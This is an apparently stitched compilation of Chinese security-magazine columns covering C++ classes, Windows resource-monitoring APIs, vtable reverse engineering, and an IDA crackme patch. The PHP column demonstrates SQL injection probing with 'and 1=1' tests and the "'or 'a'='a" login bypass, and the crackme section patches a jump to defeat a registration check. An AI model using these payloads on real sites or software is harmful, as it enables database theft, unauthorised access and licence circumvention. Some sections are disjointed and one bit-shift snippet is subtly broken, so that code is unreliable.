好了，别的不多说，开始我们今天的内容吧。我们在之前的学习中，已经把 C++ 的语法学了个大概。虽然循环可以节约代码量，但当程序复杂、代码复用不足时，维护会变得困难，因此需要更好的方式对代码分流。

分流主要有两种方式：一种是采用类和结构体，另一种是采用函数与方法。本文先讲类和结构体。比如要同时存储多个人的姓名、年龄、生日和性别，如果仅靠大量变量定义会非常繁琐，因此需要自定义数据类型。

```c
struct 结构名 {
    数据类型 成员变量名;
};
```

根据语法可知，结构体可以包含多个成员变量。把需要重复统计的数据（如姓名等）作为成员变量来定义结构体。根据上面的需求，可以定义一个叫 `USERINFO` 的结构。

```c
struct USERINFO {
    char name[10];
    // ...
    int age;
    char birthday[20];
    bool sex;
};
```

```cpp
返回值类型 方法/函数名（参数列表）
{
    函数体
}
```

那么这样定义之后，我们的代码就省了很多。如果按照我们以前的写法，要满足以上需求，就要写：

```cpp
char name1[10];
int age1;
char birthday1[20];
bool sex1;

char name2[10];
int age2;
char birthday2[20];
bool sex2;
```

蛋疼吧，但是如果定义了结构，我们就只需要写：

```cpp
USERINFO uinfo1;
USERINFO uinfo2;
```

大家不妨算算，定义的代码少了多少？？当我们每声明一个结构体对象，系统会自动为我们分配一块内存空间，我们不必再花时间定义大量变量。是不是很划算呢？使用时我们可以直接通过“对象名.成员变量名”来访问。

我们说类和结构可以帮助代码分流，那么类又如何定义呢？其实和结构很相似，只是把关键字改为 `class` 就行了，使用和结构差不多，不过它们两者也有区别，类我们会在后面着重讲解……

那么自然就是函数和方法了。其实函数和方法的定义都差不多，区别只在于：方法是定义在类当中的一个代码块，而函数是定义为全局的一个代码块。写法如下：

那么通过函数和方法，我们可以将代码切分成很多小块。比如输出是一个功能，我们写一个函数专门用于输出；别的功能又是一个函数，同时取一个容易理解的函数名，增加代码可读性。这样将代码分成很小的块，阅读起来就很方便，逻辑也不容易出错，这是代码分流的重点。在我们编码时，可以尝试对一些重复功能做一定封装。那么方法和函数可以增加代码复用性，这也是非常实惠的所在。

那么根据前几个月的语法学习，我们学习了 C++ 的基本语法，为程序开发奠定了基础；而现在学习了代码分流，更是为我们开发大型应用程序奠定了基础……（后续为连续正文段落，讨论学习编程、Windows API、MFC 以及面向对象思想）

## 月下狐笔

曾经有个老师讲这个的时候说了一句很经典的话：其实，我们都不是人，我们都是人的对象。好了，这么一说，大家应该都有了一个大致概念。那么继续来思考，我们每个人都有自己的私有财产，一般来说，财产我们都不希望被别人拿到。那么在计算机中，当然不会有财产这个概念，对象只有值。如果我们希望某些值或者方法只有在类的内部才能调用，比如说我们希望我们的钱只有自己才能用，这应该怎么办呢？这就有了我们的访问权限关键字：`public`、`protected`、`private`……（后续内容）

```cpp
class People{
public:
    char system[40];
protected:
    int money;
private:
    char wife[40];
};
```

大家一定很好奇，为什么这里非要提到他儿子呢？这就是我们下一章要讲到的内容：类之间的关系。本章我们还有个内容要说的就是类中的方法，类中的方法同样是有访问权限的，依然是这三个关键字。和属性定义的作用一模一样，我就不多说了。直接贴一个示例：

```cpp
class People{
public:
    char system[40];
    void Greeting(){
        printf("我老婆是:%s", wife);
    }
protected:
    int money;
private:
    char wife[40];
};
```

不过大家有时候看类定义时可能会发现只定义方法名，没有方法体。这个大家不用觉得奇怪，因为方法分为定义和实现，方法体是对方法的实现，而在类中是声明。注意，声明和实现是两个完全不一样的操作，也就可以完全分离开来。

## PHP实战攻略（11）

大家好，咱又见面啦，不过好像这话我一个月要说三次的说。不过不管啦，今天是 2012 年 4 月 16 日，我正发着高烧给大家写稿子……本月准备稿子的时间更少啦，所以希望大家能谅解一下吧。如果稿子方面有什么不满的，大家可以提出来。

实际上我们的超级简洁超级迷你的小论坛已经基本完成了。当然，我给的代码中似乎没有写回复帖子功能，这里我希望大家真的自己下去补一下吧……大家肯定都希望我们写的网站能比较漂亮，而不是现在这样只有个链接、只有些简单得不能再简单的页面。

## 月下狐笔

一下编辑部的意见吧。

那么页面要做得好看，固然少不了页面特效和页面布局。页面布局一直是一个很头疼的问题，相信学过 HTML/CSS 的 X 子都知道。我们知道，HTML 全称超文本标记语言，既然是标记语言，就肯定包含大量标签。当然了，HTML 提供的基础标签肯定只有最基本的样式。更多样式需要我们通过 CSS 来设定，同时特效一般采用 JavaScript 来实现页面特效。

我记得一开始我就说过，要开发网站，这些必不可少。我不知道 X 子们对这些了解多少，但是既然大家能看到这里，我相信都还是对 HTML、CSS 和 JavaScript 有所了解的。那么现在对于网页布局的一大难点在于：样式繁复，兼容性差。虽然已经有了很多 JS 框架试图来解决兼容性问题，例如 jQuery UI、ExtJs 等，但是在细节上，依然还是有很多兼容性问题难以解决。

问题最主要还是来自各个浏览器厂商对于 CSS 和 HTML 的解析规则不一样。那么这个大环境我们不能改变，网站开发程序员不得不改变我们自身产品以适应环境需求。所以，我们在开发过程中，很明显可能会需要大量的 `echo` 以控制页面样式和布局。但是这样做无异于饮鸩止渴，为什么呢？因为当一个页面出现了过多的 `echo` 之后，我们的代码可读性就已经变得非常非常差了。这时候如果希望修改页面某一部分的样式或者布局，可能对于程序员来说就会是非常严重的打击。

那么多 `echo` 语句，估计想想都头疼了。这个问题我们如何解决呢？在这个为难时刻，智慧无穷的人类终于想到了问题所在：我们的代码之所以会乱，就是因为页面中存在各种各样的逻辑代码。又要管逻辑，又要管布局，让我们非常为难。如果我们能将逻辑代码和页面显示尽量分开，会不会好些呢？没错，我要说的就是页面和代码分离模板。

具体这个模板的使用，我会留到下一章再讲。本章我希望不写代码，主要讲一些理论吧，毕竟我这状况真的很不舒服，写代码的质量估计也非常糟糕。页面和代码分离，一直是网页开发过程中非常头疼的问题。因此，Java 方面出现了 SSH 框架，ASP.NET 也将这个问题做了不错的改善；PHP 这边，框架似乎都是个人开发的，我这里选用的是 Smarty。至于 Smarty 的配置，也是下一章一起说吧。

那么说了那么多，我们现在应该说说安全性了。注入在早期的网站中一直是个非常严重的安全性问题。注入的原理之前我看很多文章都写过了，SQL 注入的实质就是通过把 SQL 命令插入到 Web 表单提交域或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意 SQL 命令。

现在开发商都比较注重这些问题，但是毕竟百密一疏，总还是会有网站疏忽的。尤其是一些比较老的网站，这些问题尤其严重。最为常见的就是网页通过 GET 方式提交的时候，比如说我们查看某板块下的帖子列表，一般会把板块 ID 以 GET 方式提交上去，这时候我们的地址栏可能是：

```text
http://www.xxx.com/topicList.php?id=1
```

等我们取到板块 id 然后来查询数据时，可能 SQL 语句就是：

```sql
select * from TB_TOPIC where FORUM_ID=1
```

这是通过 GET 提交的，那么我们很容易控制这里的参数。如果我们访问：

```text
http://www.xxx.com/topicList.php?id=1 and 1=1
```

如果这样提交成功，应该对原页面没有什么影响，因为 SQL 语句是：

```sql
select * from TB_TOPIC where FORUM_ID=1 and 1=1
```

那么，如果我们再尝试访问：

```text
http://www.xxx.com/topicList.php?id=1 and 1=2
```

这样不会有一条数据出现，因为 1 永远不等于 2。那么这样如果页面还能显示正常，这个网站就肯定存在注入漏洞。这时候我们就可以将 `and` 后面的内容改成我们的 SQL 语句，就可以猜表；猜完表还可以猜字段。这些都猜到了，那么整个数据库都暴露在我们的视野中，管理员账号、注册会员信息都在我们手中，这是对于一个网站来说非常危险的事情。

那么至于防范，首先添加严格验证是必要的。一般现在的验证都还是比较严格的：第一是页面上的验证，也就是我们所说的表单验证；第二是业务逻辑层验证，这一层验证比较关键。因为表单验证是通过 JavaScript 来验证的，但是如果将 JavaScript 禁用，那么表单验证将不复存在，这时候就要完全依靠业务逻辑层验证来确保安全性。

不过好在现在似乎服务器提交的时候很多都已经做了防注入处理。不过防注入不光是服务器的事情，更是每个开发人员都要做的事情。那么除此之外，还有一个蛋疼问题就是登录时万能密码的问题了。我们在登录的时候，SQL 语句一般是：

```sql
select * from TB_USER where USERNAME="" and PASSWORD=""
```

那么 `USERNAME` 和 `PASSWORD` 是从页面上取上来的。如果我们在用户名框和密码框中输入的是 `'or 'a'='a`，那么 SQL 语句就会变成：

```sql
select * from TB_USER where USERNAME="'or 'a'='a' and PASSWORD="' or 'a'='a"
```

根据优先级，`or` 高于 `and`，那么这个语句其实怎么都会为真。假设这件事情发生在管理员登录的时候，这时候我们并没有正确的管理员密码，依然成功登录到了后台，这也是非常可怕的事情，所以我们称之为万能密码。

当然了，上面说的两种问题只是最简单最常用的两种问题，我这里只能说说原理啦。我呢，主攻还是在开发方面，至于怎么去服务器提权什么的，那是其他大大们的事情。我想，黑 X 的主旨也在于教大家如何防范入侵，而不是如何去入侵；只是既然要防，肯定要会入侵，才谈得上防范。

好了，说了一整章的废话，我也累得够呛，感冒对这个职业作用真心很强大。本月的稿子就到这里吧，在这里给大家说一声对不住啦，这次的稿子写得真的很草率……

## 小小地实现一个运维（11）

影月

大家好，又到了远控的时间啦。但是这次的稿子准备得非常仓促，因为一个朋友清明节从成都过来玩，直到 7 号才回去。差点本月要停稿，还好小疯延长了我的交稿时间，这才仓促地准备了一下稿子。因为时间紧迫，我也就没准备什么好东西教给大家。正好最近公司这边的工作和远控有一点点关联吧，我就把公司这段时间要求我做的东西给大家讲一下吧。最近的工作主要是从事系统监控这块的开发，要求不是很高，公司的技术要求比较低，就要求我做一下系统资源监测和进程监测。

系统资源的监测就包括 CPU、网络流量和内存的监测。那么看了一下，最简单的是内存监测，我们从内存监测开始写起吧。其实内存使用情况的获取很简单，就一个函数 `GlobalMemoryStatus` 搞定，我们看下函数原型：

```cpp
void GlobalMemoryStatus(LPMEMORYSTATUS lpBuffer);
```

就一个参数，`MEMORYSTATUS` 的指针，很简单吧？`MEMORYSTATUS` 的成员也很简单，我们看看定义怎么写的吧：

```cpp
typedef struct _MEMORYSTATUS {
    DWORD dwLength;
    DWORD dwMemoryLoad;
    DWORD dwTotalPhys;
    DWORD dwAvailPhys;
    DWORD dwTotalPageFile;
    DWORD dwAvailPageFile;
    DWORD dwTotalVirtual;
    DWORD dwAvailVirtual;
} MEMORYSTATUS, *LPMEMORYSTATUS;
```

成员解释一下：

- `dwLength`：结构的长度，这个在调用 API 之前一定要给值，`sizeof` 搞定，否则会获取不到。
- `dwMemoryLoad`：内存占用率。
- `dwTotalPhys`：总物理内存。
- `dwAvailPhys`：可用物理内存。
- `dwTotalPageFile`：总分页文件大小。
- `dwAvailPageFile`：可用分页文件大小。
- `dwTotalVirtual`：总虚拟内存。
- `dwAvailVirtual`：可用虚拟内存。

好了，内存信息的获取就说到这里了。比较麻烦的是 CPU 使用率的获取。其实说白了，CPU 使用率是计算出来的。因为 CPU 使用率其实说起来是 CPU 的空闲时间比例，而这个时间是通过 `GetSystemTimes` 来获取的。我们先看看函数原型吧：

```cpp
BOOL WINAPI GetSystemTimes(
    __out LPFILETIME lpIdleTime,
    __out LPFILETIME lpKernelTime,
    __out LPFILETIME lpUserTime
);
```

第一个参数是 CPU 空闲时间，第二个是 CPU 处理内核层的时间，第三个是 CPU 处理用户层的时间。大家注意，这个时间其实是一个总的时间统计，也就是从开机到现在的时间统计。如果大家直接这样来计算，肯定是错误的。因为如果直接调用一次就开始算占用率，算出来的比例是开机到现在很长一段时间的占用率，这并不是我们想要的结果。

所以我们这里要做的事情是：调用两次 `GetSystemTimes`，中间间隔一秒，然后就可以得到两组时间。后一组时间减去前一组，就能得到过去一秒钟 CPU 的空闲时间差，还有处理用户层时间差、处理内核层时间差，这样我们就可以算出前一秒的 CPU 占用率了。

这个算法有些蛋疼，我们一步一步来解析。首先，我们看下 `FILETIME` 这个结构的定义：

```cpp
typedef struct _STRUCT_tagFILETIME {
    DWORD dwLowDateTime;
    DWORD dwHighDateTime;
} FILETIME;
```

这个结构也相当蛋疼。微软将时间值拆成了高位和低位两个值，也就是说我们在使用的时候还要经过位运算将其还原。`WORD` 是一个 2 字节整型数据，`DWORD` 是一个 4 字节整型数据，现在我们要还原，高位数字还原到高位，低位数字还原到低位，那么这个时间值就成了一个 8 字节的大整型数据，所以我们在运算的时候，需要将值存放到 `__int64` 类型变量中。既然是高位，肯定要先左移给低位留空间，低位需要 32 位空间，所以高位左移之后，再执行按位或运算，将 `dwLowDateTime` 拼到低 32 位上。

那么这个就是当前 CPU 时间的总统计。然后我们可以让程序 `Sleep` 一秒钟，一秒钟之后再调用一次 `GetSystemTimes`，后一次时间和前一次时间相减，正好获得前一秒钟 CPU 的时间差，再根据这个时间差算出 CPU 处理时间和总时间的比例，就可以算出 CPU 使用率啦。

大家肯定首先想到：前一秒 CPU 处理总时间是不是“内核层时间 + 用户层时间 + 空闲时间”？其实这是错误算法，因为 CPU 空闲时间是挂在 `System Idle Process` 进程上的，这是一个内核进程。也就是说 `KernelTime` 里已经包含空闲时间，所以总时间应看作 `KernelTime + UserTime`。

```cpp
// 前一次的 CPU 时间
FILETIME preidleTime;
FILETIME prekernelTime;
FILETIME preuserTime;

// 临时变量
FILETIME idleTime;
FILETIME kernelTime;
FILETIME userTime;

GetSystemTimes(&idleTime, &kernelTime, &userTime);
preidleTime = idleTime;
prekernelTime = kernelTime;
preuserTime = userTime;
Sleep(1000);
GetSystemTimes(&idleTime, &kernelTime, &userTime);

INT64 idle = (idleTime.dwHighDateTime << 32 | idleTime.dwLowDateTime)
           - (preidleTime.dwHighDateTime << 32 | preidleTime.dwLowDateTime);
INT64 kernel = (kernelTime.dwHighDateTime << 32 | kernelTime.dwLowDateTime)
             - (prekernelTime.dwHighDateTime << 32 | prekernelTime.dwLowDateTime);
INT64 user = (userTime.dwHighDateTime << 32 | userTime.dwLowDateTime)
           - (preuserTime.dwHighDateTime << 32 | preuserTime.dwLowDateTime);

double cpu = (double)(kernel + user - idle) / (double)(kernel + user);
printf("当前CPU占用率: %.2f%%\n", cpu * 100);
```

好了，这样就可以获得 CPU 时间了，大家可以写个死循环测试一下输出结果。虽然因为刷新时间与任务管理器刷新时间不一致，数值可能不会完全一致，但统计曲线走势应该是接近的。

图 1

好了，再往下就是网络流量的获取了。系统通常不会直接给出截取到的数据包大小统计，但可以通过网卡适配器信息中的收发统计来间接计算每秒上下行流量。

根据上面的思路，如果先获取当前网络适配器总流量，一秒后再获取一次，同样可以算出每秒上下行流量。这里先说 API：`GetAdaptersInfo`，这个函数会返回网络适配器链表。

```cpp
DWORD GetAdaptersInfo(
  __out PIP_ADAPTER_INFO pAdapterInfo,
  __inout PULONG pOutBufLen
);
```

第一个参数是 `IP_ADAPTER_INFO`，这是以链表形式返回的；第二个参数大家看到有 `__inout` 宏，也就是说这个参数既用于传入，也用于传出。既然第一个参数是一个链表，我们肯定应该为它分配合适的内存空间，但是程序并不可能根据一个指针判断究竟分配了多少内存空间，所以有了第二个参数，标志可用空间大小。

为什么说这是个有意思的函数？因为一开始我们并不知道返回链表有多少个，所以只能尝试先给指针分配一个结构体大小并传入长度。但只要你传入的第二个参数和实际大小不符，函数就会失败，不管你给的空间是否更大。于是第一次执行除非链表只有一个，否则基本会失败。失败后，实际所需内存大小会写入 `pOutBufLen`，这时重新分配空间，再次调用就可以成功了。所以要成功执行这个函数，一般要调用两次。

好了，我们先来看看 `IP_ADAPTER_INFO` 的定义：

```c
typedef struct _IP_ADAPTER_INFO {
    struct _IP_ADAPTER_INFO* Next;
    DWORD ComboIndex;
    char AdapterName[MAX_ADAPTER_NAME_LENGTH + 4];
    char Description[MAX_ADAPTER_DESCRIPTION_LENGTH + 4];
    UINT AddressLength;
    BYTE Address[MAX_ADAPTER_ADDRESS_LENGTH];
    DWORD Index;
    UINT Type;
    UINT DhcpEnabled;
    PIP_ADDR_STRING CurrentIpAddress;
    IP_ADDR_STRING IpAddressList;
    IP_ADDR_STRING GatewayList;
    IP_ADDR_STRING DhcpServer;
    BOOL HaveWins;
    IP_ADDR_STRING PrimaryWinsServer;
    IP_ADDR_STRING SecondaryWinsServer;
    time_t LeaseObtained;
    time_t LeaseExpires;
} IP_ADAPTER_INFO, *PIP_ADAPTER_INFO;
```

然后用 `GetIfEntry`，这个函数返回一个 `MIB_IFROW` 结构，这个结构就是我们急切需要的数据了：

```c
typedef struct _MIB_IFROW {
    WCHAR wszName[MAX_INTERFACE_NAME_LEN];
    DWORD dwIndex;
    DWORD dwType;
    DWORD dwMtu;
    DWORD dwSpeed;
    DWORD dwPhysAddrLen;
    BYTE bPhysAddr[MAXLEN_PHYSADDR];
    DWORD dwAdminStatus;
    DWORD dwOperStatus;
    DWORD dwLastChange;
    DWORD dwInOctets;
    DWORD dwInUcastPkts;
    DWORD dwInNUcastPkts;
    DWORD dwInDiscards;
    DWORD dwInErrors;
    DWORD dwInUnknownProtos;
    DWORD dwOutOctets;
    DWORD dwOutUcastPkts;
    DWORD dwOutNUcastPkts;
    DWORD dwOutDiscards;
    DWORD dwOutErrors;
    DWORD dwOutQLen;
    DWORD dwDescrLen;
    BYTE bDescr[MAXLEN_IFDESCR];
} MIB_IFROW, *PMIB_IFROW;
```

`IP_ADAPTER_INFO` 部分成员说明：

- `Next`：指向下一个设备的指针（链表）。
- `ComboIndex`：预留字段。
- `AdapterName`：适配器名称。
- `Description`：适配器描述。
- `AddressLength`：物理地址长度。
- `Index`：适配器索引。
- `Type`：适配器类型。
- `DhcpEnabled`：是否启用 DHCP。
- `CurrentIpAddress`：当前 IP 地址。
- `IpAddressList`：IP 地址列表。
- `GatewayList`：网关列表。
- `DhcpServer`：DHCP 服务器地址。
- `HaveWins`：是否使用 WINS。
- `PrimaryWinsServer`：首要 WINS 服务器地址。
- `SecondaryWinsServer`：备用 WINS 服务器地址。
- `LeaseObtained`：租约获得时间。
- `LeaseExpires`：租约到期时间。

`MIB_IFROW` 部分成员说明：

- `wszName`：适配器名称
- `dwIndex`：适配器索引
- `dwType`：适配器类型
- `dwMtu`：最大传输单元
- `dwSpeed`：适配器传输速度
- `dwPhysAddrLen`：MAC 地址长度
- `bPhysAddr`：MAC 地址
- `dwAdminStatus`：适配器启用或禁用状态
- `dwOperStatus`：适配器操作状态
- `dwLastChange`：操作状态最后修改时间
- `dwInOctets`：从该适配器接收到的字节数
- `dwInUcastPkts`：收到的单播包数量
- `dwInNUcastPkts`：收到的广播包和多播包数量
- `dwInDiscards`：收到后被丢弃的数据包
- `dwInErrors`：收到的错误包
- `dwInUnknownProtos`：收到的未知协议包
- `dwDescrLen`：适配器描述长度
- `bDescr`：适配器描述

之后带 `Out` 的字段都可参照带 `In` 的理解，仅意义相反。呼，看了 `MIB_IFROW`，是不是就看到我们要用的成员了？没错，就是 `dwInOctets` 和 `dwOutOctets` 两个。不过在执行 `GetIfEntry` 之前，必须将传入结构的 `dwIndex` 填为相应适配器的索引，这个在 `IP_ADAPTER_INFO` 里有。

好了，这样一说，大家是不是就基本明白了呢？虽然不像 QQ 电脑管家的流量监控那样准确，不过结果经过测试确实是正确的。最重要的是，这个实现要简单很多，不是么？

好了，这里代码我就不贴了，因为这个的难度是真心不大呀。在软件开发过程中，好玩的事情很多很多，大家不妨多花功夫研究研究。表面上这三个功能很简单，但真正查找、测试、编码，还是花费了我 3 天多的时间。希望各位对技术比较渴望的兄弟们多多努力吧。本月稿子就到这里啦，我们下周讲讲进程列表和窗体列表的获取。好了，就到这里吧，我们下回再见。

# 走近 C++（7）

大家好，经过 N 个月的努力，大家终于学习 C++ 到了最为重要的阶段了。可以说，面向对象是现在开发过程中必不可少的思想。我们接下来要讲的内容，可能是众多新手们最为渴望的话题之一，那就是：如何写一个窗体程序。

既然说到窗体，那么不得不说微软一套很出名的类库：MFC，全称 Microsoft Foundation Classes（微软基础类库）。这个框架大大简化了开发人员在 Windows 环境下编写应用程序的难度，提高了开发效率。虽然现在比起很多框架来说，MFC 慢慢走向了下坡路，不过对于新手来说，依然是一个不错的选择。

MFC 完全采用面向对象思想来编写代码，我们把 Windows 中的所有元素都视为对象：一个窗体、一个图片、一个列表等等。

对于我的这一篇连载，我不得不说，对大家实在太“便当”了，导致大家的功底可能都不够扎实。但是我这里始终篇幅受限，所以我还是希望大家下去以后能够自己找一些 C++ 基础来看。这边无数读者催我教一下怎么弄窗体什么的。我觉得真的，没有基础，做什么窗体呢？但是这样的读者源源不断，我只能让我的文章变得很“便当”。说到这里，相信大家也明白，可能距离我开始讲解 MFC 不远了。

这对大家不是非常好，也许真的能让大家迅速入门，但是基础不牢靠的程序员永远解决不了问题滴……好了，又说了很多废话。上一章我们主要讲了类成员和方法的定义，以及权限设定。那么本章着重说一下类的使用。语法上的东西很简单，上一章已经说得差不多了，但是如何简化操作、减少代码量和逻辑难度，才是最重要的。

首先，我们必须明白，既然面向对象秉承“万物皆对象”的原则，那么在开始设计时，要将所有东西都视为对象。既然有对象，肯定就要有类。如何将多个对象的公共属性提取出来并封装成类，也很重要，这一步决定着整个程序的实现难度。

但是在日常生活中，各种对象之间有各种关系。比如一台电脑对象，可能包含主板对象、CPU 对象、内存对象，这是一种包含关系。大家可能会很容易想到这时候用代码来表现这种关系：

```cpp
class Cpu {
public:
    char trademark[40];
    char madetime[40];
    int mhz;
};

class Memory {
public:
    char trademark[40];
    char madetime[40];
    int memNum;
};

class Computer {
public:
    Cpu cpu;
    Memory memory;
    char trademark[40];
    char madetime[40];
    double price;
};
```

大家看看上面的代码，关系是对的：电脑包含 CPU 和内存等东西。但是三个类都存在相同成员。在任何时候，当我们发现代码存在相同部分时，就应该考虑进一步封装。三个类都具有品牌 `trademark` 和生产日期 `madetime` 两个相同成员。

```cpp
class Product {
public:
    char trademark[40];
    char madetime[40];
};
```

这就是一个产品类。接下来考虑继承关系：不论 `Cpu`、`Memory` 还是 `Computer`，都应继承产品特性（如生产日期和品牌）。继承关系通过 `:` 表示。

```cpp
class Cpu : public Product {
public:
    int mhz;
};
```

既然使用了继承，那么在 `Product` 中已有的属性，在 `Cpu` 中就可以省略。`Product` 是被继承者（父类），`Cpu` 是继承者（子类）。适当继承可简化程序，但过多继承也会让程序复杂。

类通常分为头文件与源文件：定义写在 `.h`，实现写在 `.cpp`。例如添加 `People` 类后，会有 `People.h` 与 `People.cpp`。在 `People.h` 中一般只写定义，如一个 `Greeting` 方法：

```cpp
class People {
public:
    void Greeting();
};
```

这里声明 `Greeting` 但不写方法体，实现放到 `People.cpp`。实现成员函数时需要使用域限定符 `::`，用来表明该方法属于 `People`。

```cpp
void People::Greeting() {
    // 方法体
}
```

这种写法告诉编译器这是 `People` 类的 `Greeting` 方法实现。返回值与参数列表必须与声明一致，否则会报错。将定义与实现分离有助于结构清晰、避免混乱，也更便于维护。

> 无法解析的外部符号 "public: void __this..."

```cpp
call People::Greeting(void)" (?Greeting@People@@QAEXXZ)
```

这个报错虽然有点晦涩，说无法解析的外部符号，但是我觉得还是相对比较明了的。很明白地指出 People::Greeting 方法没有实现。

好吧，我这里为啥要贴错误来给大家看，因为我希望告诉大家，程序员为什么经验很重要。当你无法解决一个错误时，不管是语法错误，还是逻辑错误，往往就需要经验来解决了。C++ 最不好的地方在于，有的时候编译器报错报得很晦涩，甚至是乱码，如果没有经验，将会被这些错误弄得焦头烂额。除此之外，在调试的时候，同样需要经验，什么地方设置断点，什么写法容易出错，这些都是经验所带给我们的。所以为什么我一直说，学 C++，必须自己多动手，不然碰到一点点问题就得问人，你的效率何在？那么大致就说到这里。

接下来我们就要来讲讲 MFC 的思想了，MFC 将我们常用的对象都封装成了类。一个窗体、字符串、应用程序都视为一个对象。那么所有对象都继承自 CObject 类。那么我简单介绍一下 MFC 的常用类吧。

- CDialog：所有对话框的基类
- CString：字符串类
- CView：视图类
- CListCtrl/CListView：控件/列表相关类
- CButton：按钮类
- CEdit：文本框类
- CMenu：菜单类

这上面的几个是我们最常用的类，这些类都封装了相应元素最常用的属性。大家接触过传统 Windows API 的就知道，Windows API 很多都是非常繁杂的。对我们来说，很多参数是不需要的，所以 MFC 不光对对象做了封装，也对传统的 API 做了一下二次封装，简化了很多代码。具体 MFC 应用程序的开发我会在下一章开始讲解。本月的话，一是朋友来昆明玩我花时间招待了一下，二是这几天病了一场，所以稿子太晚了，所以本月稿子又准备得很仓促。在这里给读者和小编们道歉啦。本月的内容就到这里吧。我们下一章开始学习使用 MFC 开发窗体应用程序。

# C++ 虚函数深入剖析

沧海浮萍

做逆向分析的时候最怕遇到 C++ 的东西，因为它的各种机制实在是令人郁闷。今天这里深入地介绍一下怎么去分析 C++ 中的虚函数，深入其中，你会发现更多的秘密。本文的阅读需要具备 C++ 功底，代码编写平台 VS2010。

首先来看我们的工程代码；很简单的 C++ 代码，希望读者有 C++ 基础。代码如下：

## 基类代码

```cpp
class fish  // 四个虚函数
{
public:
    int a;
public:
    fish():a(8){ cout<<"entering fish......"<<endl; }
    virtual ~fish(){ cout<<"leaving fish......"<<endl; }
    virtual void fish_move()=0;   // 纯虚函数
    virtual void fish_ate()=0;
    virtual void fish_sleep()=0;
};

class bird  // 三个虚函数
{
public:
    int b;
public:
    bird():b(7){ cout<<"entering bird......"<<endl; }
    virtual ~bird(){ cout<<"leaving bird......"<<endl; }
    virtual void bird_move()=0;   // 纯虚函数
    virtual void bird_ate()=0;
};
```

## 子类多继承

```cpp
class tt: public fish, public bird   // 自己有一个虚函数
{
public:
    int c;
public:
    tt():c(6){ cout<<"entering tt......"<<endl; }
    ~tt(){ cout<<"leaving tt......"<<endl; }

    void fish_move(){ cout<<"tt fish move"<<endl; } // 重写 fish 的虚函数
    void fish_ate(){ cout<<"tt ate"<<endl; }
    void fish_sleep(){ cout<<"tt sleep"<<endl; }

    virtual void tt_fly(){ cout<<"tt fly"<<endl; } // 自己的虚函数

    void bird_move(){ cout<<"bird move"<<endl; } // 重写 bird 的虚函数
    void bird_ate(){ cout<<"bird ate"<<endl; }
};
```

```cpp
// 主函数
void main()
{
    tt *test = new tt;
    test->fish::fish_move();
    test->bird::bird_move();
    delete test;
    return;
}
```

继续跟踪，下面进入构造函数。首先是最外层构造函数，如图6。图7是该内存区域的放大图。最外层的类的构造函数是 fish():a(8){cout<<"entering fish......"<<endl;}，数据 a 被初始化为 8……然后是第二层构造函数，构造函数为 bird():b(7){cout<<"entering bird......"<<endl;}，数据 b 被初始化为 7……最后一个是子类的构造函数，tt():c(6){cout<<"entering tt......"<<endl;}，成员 c 被初始化为 6。最后再看一下虚函数表的内存，如图12。在这里我发现一个奇怪的现象，就是“后来者居上”，就是说，越在后面创建的虚函数表在内存的排序越靠前。

下面开始我们的逆向分析，看看内存中这些类、虚函数以及虚函数表是怎么个存放顺序。

图1所示的是我完全追踪完毕后的虚函数信息，先列出来方便我们观察。

图1  
图2  
图3  
图4  
图5

首先在程序正式开始执行之前，在内存映射执行之后，内存状态如图2所示……这说明在代码编译完毕后，我们的虚函数偏移地址就已经存在。图2中内存区域的偏移地址——虚函数的地址；我们知道，对虚函数的访问是通过两次间接访问进行的；既然虚函数的内存地址已经确定，那么第一间接访问的内存地址（虚函数表指针）也已经确定呢？我们到堆区域看一下，如图3所示……开始对程序进行断点跟踪，在跟踪过程中，在主函数调用之前，这块内存将被申请并修改，如图4，被修改的大小为：所有类大小之和 + 8 个字节。图5所示的是这块内存的放大图。

通过上面的分析，我们得到了关于 C++ 中虚函数的以下几个结论：

- 1. C++ 虚函数的函数地址是在编译期间确定的，但是其一级基地址却是在运行时得到的。
- 2. 虚函数表基址指针（不管有几个表）是在最后的子类构造函数执行前确定的。
- 3. 虚函数表在内存中存放，越晚形成的表越靠前。
- 4. 虚函数表的末尾并不是 null，是一个指针，但这个指针指向的函数却是 null。
- 5. 虚函数表的表指针安插在类的头部，这个插入的过程是在运行时执行的，并不是编译期间执行的。
- 6. 在内存中，所有的类彼此相邻，而且按照声明的顺序依次排列。
- 7. 类中的数据成员存放在类的内部。

对 C++ 的程序逆向分析非常复杂。当然，如果是简单的控制台应用程序的话，会简单一些，但是当一个程序使用上了 C++ 几乎所有的特性（模板、多态）的时候，逆向分析这样一个程序简直就是噩梦。最好的方法就是平时将它的特性单独拿出来进行分析，当它们组合在一起的时候我们才能最快地去发现这些特征。

（文中涉及的相关代码本期光盘已收录）

# IDA 静态分析爆破 crackme

最近一直在写代码，闲逛的时候看见一个 crackme，就拿下来看一下。哎，就那么几下就搞下来了，写写心得跟大家分享一下吧。

软件运行后的界面如图1所示，我就不查壳了，这个程序确实没有壳，我就直接用 IDA 载入了。我们尝试填一下用户名跟验证码，看看有什么提示之类的信息。如图2所示，用户名长度不能少于 5。我再次输入，出现了图3所示的错误提示信息。既然有错误提示信息，那么我们就看看能不能找到这些信息。我们将鼠标移动到 IDA 的彩色条带位置，这里其实是 IDA 对我们程序分析的结果，各种的函数以及数据，在这里都可以发现。我们将鼠标移动上去，这时候会出现提示，如图5。我们找到 .data 数据资源区，如图6所示。

在这里我们可以找到程序里面的字符串资源。找到了我们需要的字符串提示信息，下一步就是看看哪里使用了这些字符串。我们将鼠标移动到 DATA XREF: sub_4014DF+1D4230 这样的数据上面，IDA 就会给出调用提示，如图7所示。然后我们双击这个位置，就可以来到使用这个字符串信息的代码位置了，如图8所示。

图8所示。很显然这部分代码仅仅是字符串装载，并不是验证检测的代码。

我们在这里点击右键，如图9选择“Jump to a cross reference”，就来到了交叉代码区域，如图10所示。

在这里我们就能很直观地看出代码调用的次序以及跳转的流程了。在这里我们可以看到两个比较关键的区域，如图11。左侧的是我们发现的字符串的调用区域，而右侧是显示我们字符串的窗口代码，所以这个跳转就是关键，图12。当然这里有一些经验之谈，做得多了自然就会有感觉。

# 柳秘园

就像英语语感一样，我们把这里的代码修改成 je 试一下。

图11

修改保存后的程序，运行测试，如图13，ok 了。

图13  
图12

```asm
0040163B  E8 80020000   CALL CHAP204.004018C0
00401640  85C0          TEST EAX,EAX
00401642  0F84 1F000000 JE CHAP204.00401747
00401648  8D8D ACFEFFFF LEA ECX,DWORD PTR SS:[EBP-154]
```

